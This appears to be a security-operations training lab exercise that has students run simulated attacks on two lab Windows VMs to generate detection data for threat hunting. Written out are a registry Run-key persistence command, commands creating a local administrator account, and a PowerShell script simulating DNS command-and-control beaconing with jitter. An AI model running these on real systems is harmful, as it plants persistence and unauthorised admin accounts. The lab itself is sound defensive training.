 # Module 7 - Lab 1 - Exercise 5 - Conduct attacks

### Task 1: Attack Windows configured with Defender for Endpoint.

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *Command*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**. Confirm any User Account Control prompts that appear.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd temp
```
4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

6. Attack 3 - Copy and run this command:

```
notepad c2.ps1
```
Select **Yes** to create a new file and copy the following PowerShell script into c2.ps1 and select **save**.

**Note** Paste into the Virtual Machine might have a limited length.  Paste this in three sections to ensure all the script is pasted into the Virtual Machine.  Make sure the script looks as it does in these instructions within the notepad c2.ps1 file.

```


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)

```

At the command prompt, enter the following, enter the command in each row pressing Enter key after each row:
```
powershell
.\c2.ps1
```
**Note:** You will see resolve errors. This is to be expected.
Let this command/powershell script run in the background. Don't close the window.  The command needs to generate log entries for some hours.  You can proceed to the next task and next exercises while this script runs.  The data created by this task will be used in the Threat Hunting lab later.  This process will not create substantial amounts of data or processing.

### Task 2: Attack Windows configured with Sysmon

In this task, you will perform attacks on a host with the Security Events connector configured and Sysmon configured.

1. Login to WIN2 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *CMD*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd \temp
```

4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

# Proceed to Exercise 6
